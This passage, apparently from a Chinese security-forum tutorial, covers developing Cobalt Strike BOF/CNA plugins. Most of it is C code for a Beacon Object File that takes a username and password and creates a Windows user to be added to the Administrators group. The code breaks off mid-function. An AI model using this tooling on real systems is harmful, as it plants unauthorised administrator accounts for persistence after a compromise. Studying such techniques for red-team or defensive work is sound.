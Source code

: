 效果

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-70ba8fde063ff2218b9bd8403a0dd2340d2eed8c.png)  
可以看到成功添加用户，并且添加到管理员组。注意执行这个操作需要有admin的权限。

CNA插件开发
=======

先给出C语言代码，修改了功能，可以自定义用户名和密码

```C
#include <windows.h> 
#include <stdio.h> 
#include "bofdefs.h"
#include "beacon.h" 

#pragma region error_handling
#define print_error(msg, hr) _print_error(__FUNCTION__, __LINE__, msg, hr)
BOOL _print_error(char* func, int line, char* msg, HRESULT hr) {
#ifdef BOF
  //BeaconPrintf(CALLBACK_ERROR, "(%s at %d): %s 0x%08lx", func, line,  msg, hr);
  BeaconPrintf(CALLBACK_OUTPUT, "Hello world");
#else
  printf("[-] (%s at %d): %s 0x%08lx", func, line, msg, hr);
#endif // BOF

  return FALSE;
}
#pragma endregion

typedef DWORD NET_API_STATUS;

DECLSPEC_IMPORT NET_API_STATUS WINAPI NETAPI32$NetUserAdd(LPWSTR, DWORD, PBYTE, PDWORD);
DECLSPEC_IMPORT NET_API_STATUS WINAPI NETAPI32$NetLocalGroupAddMembers(LPCWSTR, LPCWSTR, DWORD, PBYTE, DWORD);

#include <LM.h>

#ifdef BOF
void go(char* buff, int len) {
  datap parser;

  LPWSTR username;
  LPWSTR password;

  // 初始化datap结构体变量(parser),用于解析从Beacon接收到的字节流(buff)
  BeaconDataParse(&parser, buff, len);
  username = (LPWSTR)BeaconDataExtract(&parser, NULL);
  password = (LPWSTR)BeaconDataExtract(&parser, NULL);

  BeaconPrintf(CALLBACK_OUTPUT, "Extracted username: %S", username);
  BeaconPrintf(CALLBACK_OUTPUT, "Extracted password: %S", password);

  USER_INFO_1 UserInfo;

  UserInfo.usri1_name = username;
  UserInfo.usri1_password = password;
  UserInfo.usri1_priv = USER_PRIV_USER;
  UserInfo.usri1_home_dir = NULL;
  UserInfo.usri1_comment = NULL;
  UserInfo.usri1_flags = UF_SCRIPT;
  UserInfo.usri1_script_path = NULL;

  NET_API_STATUS nStatus;

```